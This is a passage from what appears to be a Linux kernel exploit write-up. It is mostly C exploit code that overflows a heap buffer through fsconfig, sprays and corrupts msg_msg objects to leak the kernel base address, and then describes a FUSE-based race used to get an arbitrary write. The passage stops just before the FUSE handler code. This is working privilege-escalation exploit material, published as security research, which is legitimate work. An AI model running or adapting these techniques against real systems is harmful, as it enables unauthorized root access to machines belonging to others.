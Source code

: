     strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    for (int i = 0; i < 117; i++) 
    {
        fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);
    }
    
    // overflow, hopefully causes an OOB read on a potential msg_msg object below
    puts("[*] Overflowing...");
    pat[21] = '\x00';
    char evil[] = "\x60\x10";
    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0);

    // spray more msg_msg
    for (int i = 8; i < 0x10; i++) 
    {
        memset(buffer, 0x41+i, sizeof(buffer));
        targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT);
        send_msg(targets[i], message, size - 0x30, 0);
    }

    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);

    puts("[*] Done heap overflow");
    puts("[*] Spraying kmalloc-32");
    for (int i = 0; i < 100; i++) 
    {
        open("/proc/self/stat", O_RDONLY);
    }

    size = 0x1060;
    puts("[*] Attempting to recieve corrupted size and leak data");

    // go through all targets qids and check if we hopefully get a leak
    for (int j = 0; j < 0x10; j++) 
    {
        get_msg(targets[j], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
        kbase = do_check_leak(recieved);
        if (kbase) 
        {
            close(fd);
            return kbase;
        }
    }

    puts("[X] No leaks, trying again");
    return 0;
}

Now, we can perform the same arbitrary write technique D3v17 and I created. When you trigger the allocation of msg_msg and make a requested size require larger than 4096, we need to hang the usercopy when it copies to the first msg_msg chunk but before it traverses and usercopies to the msg_msgseg chunk. Previously, we did it with userfaultfd, but since unprivileged userfaultfd is disabled by default since 5.11, how can we reliably race this?

I went through this slideshow and the FUSE technique caught my attention. The gist of it is that in Linux, users can communicate with /dev/fuse to create their own custom filesystem in userspace. You can create your own files in this userspace filesystem, map them in memory with mmap, have usercopy reach them when copying, and have your custom filesystem read handlers just hang or do anything else you want. Here is our custom FUSE filesystem’s handlers:
